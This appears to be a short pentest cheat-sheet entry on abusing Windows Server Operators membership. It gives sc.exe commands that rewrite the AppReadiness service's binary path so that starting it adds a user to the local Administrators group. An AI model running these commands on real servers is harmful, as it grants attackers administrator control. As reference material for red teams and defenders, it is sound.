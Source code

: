 The [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators) group allows members to administer Windows servers without needing assignment of Domain Admin privileges. It is a very highly privileged group that can log in locally to servers, including Domain Controllers.

Membership of this group confers the powerful `SeBackupPrivilege` and `SeRestorePrivilege` privileges and the ability to control local services.

#### Leveraging membership

Check permissions for service running as system. Looking or **RPWP**
```powershell
 sc.exe sdshow AppReadiness
```

Modify service binary path
```powershell
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

Start service
```powershell
sc start AppReadiness
```